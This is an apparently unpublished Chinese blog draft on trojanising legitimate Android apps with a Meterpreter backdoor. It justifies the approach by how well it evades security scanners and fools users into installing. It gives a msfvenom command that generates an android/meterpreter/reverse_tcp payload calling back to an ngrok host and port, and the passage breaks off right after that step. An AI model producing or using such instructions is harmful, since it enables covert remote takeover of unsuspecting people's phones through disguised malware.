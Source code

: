 ```yaml
---
published: false
layout: post
categories: 技术
---
```

正常的apk文件当然是可以加上materpreter的payload变成拥有后门的感染文件，在用户安装应用过后就可以对其安卓设备进行控制。但是如果直接用msfvenom来制作这种感染文件，这种文件的散播是存在非常大的问题的，具有原因有以下：
1. 感染文件太常见了，容易被安装系统或者安全系统识别
2. 感染文件名字太奇怪了，不会有正常人去下载安装，在社会工程学上非常难

所以我们就有了将正常软件拿来感染的想法，这种方法能够将payload附着在不同的常见的软件中，以达到欺骗的手段。

当然了这个过程可以是手动或者自动的，自动的软件或者脚本，也可以是手工注入，但是其基本的东西都是msfvenom里面的。
通过
```
msfvenom -p android/meterpreter/reverse_tcp lhost=4.tcp.ngrok.io lport=16715 R > /mnt/d/2022_Oto/payload.apk
```

生成



